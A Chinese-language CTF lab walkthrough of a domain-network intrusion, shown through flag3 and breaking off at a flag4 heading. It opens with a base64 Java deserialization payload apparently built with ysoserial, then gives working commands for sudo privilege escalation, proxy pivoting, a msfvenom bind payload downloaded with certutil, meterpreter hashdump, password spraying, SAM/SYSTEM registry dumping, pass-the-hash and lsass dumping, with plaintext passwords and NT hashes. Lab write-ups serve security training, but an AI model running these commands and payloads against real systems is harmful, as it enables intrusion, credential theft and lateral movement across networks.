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
```

链接上去





权限不够，最近出了一个sudo提权的漏洞， https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/ 成功得到提权拿到flag1，或者是suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

cmp /flag.txt /dev/zero -b -l
```

搭建代理

```bash
sudo ./proxy -selfcert -laddr "0.0.0.0:10001"

nohup ./agent -bind 0.0.0.0:10010 > agent.log 2>&1 &


connect_agent --ip 39.98.124.212:10010

interface_list
session
autoroute

nohup ./gost -L=socks://:1080 > gost.log 2>&1 &

# 查看是否开启
ss -luntp
```

## flag2

找到刚才的外网服务的jar包，反编译，获得mysql的用户名和密码



```java
# THYMELEAF (ThymeleafAutoConfiguration)
#spring.thymeleaf.cache=true
spring.thymeleaf.check-template=true
spring.thymeleaf.check-template-location=true
spring.thymeleaf.content-type=text/html
spring.thymeleaf.enabled=true
spring.thymeleaf.encoding=UTF-8
spring.thymeleaf.excluded-view-names=
spring.thymeleaf.mode=HTML5
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html
server.port=8080

spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
spring.datasource.url=jdbc:mysql://172.16.52.45:3306/maildb?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=T%b8ds*l3v+B
```

看这台机器的IP只看到了一个网段，但是这个网段只有一台机器，`netstat -an`查看网络连接情况



发现还有这个网段

```bash
mail-svc@webserver:/tmp$ ./fscan -h 172.16.34.5/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.16.34.5     is alive
(icmp) Target 172.16.34.23    is alive
[*] Icmp alive hosts len is: 2
172.16.34.23:445 open
172.16.34.5:445 open
172.16.34.23:139 open
172.16.34.23:135 open
172.16.34.5:139 open
172.16.34.5:135 open
172.16.34.5:88 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 172.16.34.5     [+] DC:AOSELUAUTO\ASLSRVAD05   
[*] NetBios 172.16.34.23    AOSELUAUTO\ASLSRVFS02         
[*] NetInfo 
[*]172.16.34.23
   [->]ASLSRVFS02
   [->]172.16.34.23
[*] NetInfo 
[*]172.16.34.5
   [->]ASLSRVAD05
   [->]172.16.34.5
已完成 7/7
[*] 扫描结束,耗时: 8.095804082s
```

接着找到了Mysql



MDUT链接上去



UDF提权之后仍然不是system权限，看到有**SeImpersonatePrivilege**可以利用，准备上线msf，现在生成`bind.exe`

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -f exe > bind.exe
```

到入口机，再用sqlserver下载执行

```bash
nohup python3 -m http.server 9999 > agent.log 2>&1 &

certutil -urlcache -split -f http://172.16.53.30:9999/bind.exe C:\\Users\\public\\bind.exe
C:\\Users\\public\\bind.exe
```

链接上去，提权，hashdump

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set rhost 172.16.36.21 
run

# 提权
getsystem
getuid

# 获得NTHash
load kiwi
creds_all

hashdump
```



wmi没连接上，直接用msf里面的shell功能

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d41d2c4614bf18fa34726d4c1ba69fc2:::


shell
cd C:\Users\Administrator\desktop\
type flag.txt
```

## flag3

看看登录会话或者注册表

```bash
query user

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# 或者直接用msf里面的模块
run post/windows/gather/credentials/windows_autologin
```



发现自动登录用户

```bash
nxc smb 172.16.34.23 -u EthanMorris -p 'DROCV4?LtyCp' --shares
nxc smb 172.16.34.5 -u EthanMorris -p 'DROCV4?LtyCp' --shares
```



发现对**Aoselu FileService**有读写权限，并且是域用户，收集域内信息

```bash
bloodhound-python -u EthanMorris -p 'DROCV4?LtyCp'  -d aoseluauto.com -ns 172.16.34.5 -c all --auth-method ntlm --dns-tcp --zip
```

用smbclient链接下

```bash
impacket-smbclient aoseluauto.com/EthanMorris:'DROCV4?LtyCp'@172.16.34.23

shares
use FileService
cd IT Resources
cd Ops Scripts
```

找到很多ps1文件



下载下来

```bash
lcd /tmp

recurse ON
prompt OFF

mget *.ps1
```

里面有很多域用户和他们的密码，整理如下

```bash
$username = "aoseluauto\svc_bakadm01"
$password = "k3!8Fa&Sq8Z6"

$remoteUser = "aoseluauto\\svc_netadm03"
$remotePass = ConvertTo-SecureString "0&8SwSc=Ok%2" -AsPlainText -Force

$backupUser = "aoseluauto\\svc_bakadm02"
$backupPassPlain = "CYNpR5i@Z?_="

$backupUser = "aoseluauto\\svc_webadm02"
$backupPass = ConvertTo-SecureString "WebAdmPass789!" -AsPlainText -Force

$remoteUser = "aoseluauto\\svc_netadm03"
$remotePass = ConvertTo-SecureString "0&8SwSc=Ok%2" -AsPlainText -Force

$domainAdminUser = "aoseluauto\\svc_adm01"
$domainAdminPassword = ConvertTo-SecureString "_7zg9QFlCTns" -AsPlainText -Force
```

喷洒攻击**AOSELUAUTO\ASLSRVFS02** 

```bash
netexec smb 172.16.34.23 -u users.txt -p passwords.txt
netexec rdp 172.16.34.23 -u users.txt -p passwords.txt 
```

只有`svc_bakadm01\k3!8Fa&Sq8Z6`可以用，

```bash
evil-winrm -i 172.16.34.23 -u svc_bakadm01 -p 'k3!8Fa&Sq8Z6'

whoami /priv
```



**SeBackupPrivilege**权限，因为这里可不是DC嗷，不能卷影拷贝攻击，但是可以转储注册表

```bash
mkdir C:\Users\svc_bakadm01\Documents\dump

reg save HKLM\SAM      C:\Users\svc_bakadm01\Documents\dump\SAM.hive
reg save HKLM\SYSTEM   C:\Users\svc_bakadm01\Documents\dump\SYSTEM.hive

dir C:\Users\svc_bakadm01\Documents\dump
cd dump
download SAM.hive 
download SYSTEM.hive


impacket-secretsdump -sam SAM.hive -system SYSTEM.hive LOCAL
```

SECURITY 权限不够emm，但是就用system和sam也可以得到管理员的`NThash`了



```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:74aaf464e1a7a75f2123ada1dd62edab:::


netexec smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -x "whoami"

netexec smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -x "cd C:\Users\Administrator\desktop\ && dir"

netexec smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -x "type C:\Users\Administrator\desktop\flag.txt.txt"
```

拿到flag3之后，试试用这个hash进行本地转储

```bash
nxc smb 172.16.34.23 -u Administrator -H 74aaf464e1a7a75f2123ada1dd62edab --local-auth -M lsassy
```

成功得到新的用户

```
aoseluauto.com\svc_monadm01
96Mr!je39y_p
ab232c3cf9f4b7cf27602082b04f306b
```

## flag4

